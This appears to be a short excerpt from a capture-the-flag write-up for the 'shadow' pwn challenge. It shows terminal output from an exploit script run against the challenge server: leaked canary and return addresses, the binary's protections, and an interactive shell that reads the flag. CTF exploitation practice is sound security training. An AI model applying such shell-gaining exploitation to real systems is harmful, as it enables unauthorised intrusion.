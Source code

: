 {% highlight text %}
shadow python ./shadow.py pwn2.chal.ctf.westerns.tokyo 18294
[*] For remote: ./shadow.py HOST PORT
[+] Opening connection to pwn2.chal.ctf.westerns.tokyo on port 18294: Done
[*] Canary: 0x37e0a000
[*] Saved EBP: 0xfff894dc
[*] Saved EIP: 0x8048d1b
[*] Some Buff: 0xfff89490
[*] '/vagrant/mma/shadow/shadow'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE
[*] Switching to interactive mode
$ ls
flag
shadow
$ cat flag
TWCTF{pr3v3n7_ROP_u51ng_h0m3m4d3_5h4d0w_574ck}
$
{% endhighlight %}





